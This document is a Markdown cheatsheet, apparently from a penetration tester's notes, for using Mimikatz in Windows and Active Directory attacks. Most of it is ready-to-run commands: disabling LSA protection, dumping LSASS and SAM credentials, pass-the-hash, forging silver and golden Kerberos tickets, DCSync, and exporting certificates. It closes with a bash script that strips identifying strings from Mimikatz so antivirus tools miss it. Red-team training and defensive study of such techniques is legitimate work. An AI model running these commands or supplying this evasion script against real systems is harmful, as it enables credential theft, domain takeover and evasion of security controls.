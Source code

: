 # Mimikatz Cheatsheet
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. [[AD-Credential-Harvesting]]
`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0`

```powershell
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```

```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
# Log to a txt file as the output can get very large 
log 
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Extracting NTLM hashes from LSASS memory
Regularly
```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```

Alternatively we `SeDebug` privilege use [[Sysinternals-Procdump]] or `Taskmanager`,  then `mimikatz`
```powershell
# Or Taskmanager -> [Right Click] lsass.exe -> Create dump file 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# run mimikatz use log file if required
mimikatz.exe
log # if required
# Target the memory dump
sekurlsa::minidump lsass.dmp
# Extract logonpasswords
sekurlsa::logonpasswords
```


## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authenication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
!+ # LSA protection bypass!
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
!+ # LSA protection bypass!
lsadump::dcsync /user:Administrator
```

## Credential Manager

```powershell
privilege::debug
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
sekurlsa::credman
```

## Certification Persistence

```powershell
# View CA Certificate on the DC 
crypto::certificates /systemstore:local_machine


privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
```


## Custom Mimikatz

Try mimidogz! [Obfuscation script from s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/) - trying harder means adding more and read this article
```bash
# This script downloads and slightly "obfuscates" the mimikatz project.
# Most AV solutions block mimikatz based on certain keywords in the binary like "mimikatz", "gentilkiwi", "benjamin@gentilkiwi.com" ..., 
# so removing them from the project before compiling gets us past most of the AV solutions.
# We can even go further and change some functionality keywords like "sekurlsa", "logonpasswords", "lsadump", "minidump", "pth" ....,
# but this needs adapting to the doc, so it has not been done, try it if your victim's AV still detects mimikatz after this program.

git clone https://github.com/gentilkiwi/mimikatz.git windows
mv windows/mimikatz windows/windows
find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/James/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/Troy/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/jtroy@hotmail.com/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/python/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
find windows/ -type f -name '*mimikatz*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
	mv "${FILE}" "${newfile}";
done
find windows/ -type f -name '*kiwi*' | while read FILE ; do
	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
	mv "${FILE}" "${newfile}";
done
```


## References

[Custom Mimikatz by s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)